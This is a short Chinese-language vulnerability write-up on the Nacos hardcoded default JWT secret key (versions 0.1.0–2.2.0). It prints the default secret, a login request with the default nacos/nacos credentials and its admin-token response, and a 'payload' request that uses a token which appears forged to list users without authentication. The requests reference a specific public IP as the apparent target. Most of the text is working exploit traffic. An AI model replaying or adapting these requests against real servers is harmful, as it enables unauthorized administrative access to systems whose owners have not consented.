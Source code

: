 nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789 # =后边的是默认的硬编码  
  
**影响版本**  
  
0.1.0<=nacos<=2.2.0  
#### 漏洞原理  
  
输入正确的账号密码，则后端会返回对应该用户的加密accessToken。  
  
请求包  
  
POST /nacos/v1/auth/users/login HTTP/1.1  
Host:  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
Accept: application/json, text/plain, */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 29  
Origin: http://47.83.174.204:8848  
Connection: keep-alive  
Referer: http://47.83.174.204:8848/nacos/  
Priority: u=0  
  
username=nacos&password=nacos  
  
响应包  
  
HTTP/1.1 200   
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE  
Content-Type: application/json;charset=UTF-8  
Date: Sat, 26 Apr 2025 10:16:58 GMT  
Keep-Alive: timeout=60  
Connection: keep-alive  
Content-Length: 181  
  
{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiabXmFSGiac3aFzTiaW4YcFkOPnAooNLKkqruxwkTkobgiaZibjftB1UVk5w/640?wx_fmt=jpeg&from=appmsg "")  
  
客户端得到此accessToken后会使用此Token再次请求后端服务器，及通过该用户身份登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaZSuDQXVwB6SsEPtweJ135Gq1ibofrhkUyufF0AoRibZbIHb2tALxjDpQ/640?wx_fmt=jpeg&from=appmsg "")  
  
payload  
  
GET /nacos/v1/auth/users?pageNo=1&pageSize=9&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
Accept: application/json, text/plain, */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Origin: http://47.83.174.204:8848  
Connection: keep-alive  
Referer: http://47.83.174.204:8848/nacos/  
Priority: u=0  
  